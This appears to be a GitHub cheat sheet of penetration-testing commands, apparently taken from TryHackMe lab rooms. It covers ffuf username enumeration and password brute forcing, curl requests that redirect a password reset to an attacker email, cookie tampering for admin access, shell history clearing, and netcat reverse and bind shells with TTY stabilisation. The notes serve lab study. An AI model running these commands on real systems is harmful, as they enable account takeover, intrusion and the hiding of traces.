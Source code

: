 # Upgrades

    sudo apt update -y && sudo apt upgrade -y


# Enumeration (subdomains)(username)(atthentication bypass)
# ffuf

    ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.54.22/customers/signup -mr "username already exists" -fs {size}


-w wordlists path

-u url ex https://google.com

-H host/header

-fs switch, which tells ffuf to ignore any results that are of the specified size.

-d argument specifies the data that we are going to send

-mr argument is the text on the page we are looking for to validate we've found a valid username.

-X method of request {POST,GET ,DELETE}

-fc argument to check for an HTTP status code other than 200.

= FUZZ //worldlists content

    ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.54.22/customers/login -fc 200

# Curl
    curl 'http://10.10.54.22/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
    curl 'http://10.10.54.22/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
    curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test
    
# Nmap
    nmap -sV -sC -A http//ip/ -oN output.txt
    
    
# SSH
    ssh username@ip
# SU
    switch user: su - username 
    sudo su username
    
 ****SU**** **superuser**
# history
  
    history -d <line number>
    history -c
    
**-c** is for clearing all
**-d** line by line

# ftp(file transfer protocol)
    ftp ip
    get filename
    
# netcat

reverse shell ports(443,53,80)

the first syntax is for reverse shell

the seceond one is for bind shell

    nc -lvnp <port-number>
    nc <target-ip> <chosen-port>
    
-l is used to tell netcat that this will be a listener

-v is used to request a verbose output

-n tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room.

-p indicates that the port specification will follow.

   **(---**making the shell stable**---)**
   
  **Technique 1: Python**

    python -c 'import pty;pty.spawn("/bin/bash")'
    export TERM=xterm
    stty raw -echo; fg
   
 fg is use to rerive that termial that we push in the background
 
 and Ctrl + Z push them in the background

![nc](https://user-images.githubusercontent.com/98187755/212935020-c11aea4e-611a-47df-9673-1fe87c8b4fe8.png)

**Technique 2: rlwrap**

    sudo apt install rlwrap
    rlwrap nc -lvnp <port>
    
This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use stty '''raw -echo; fg''' to stabilise and re-enter the shell.

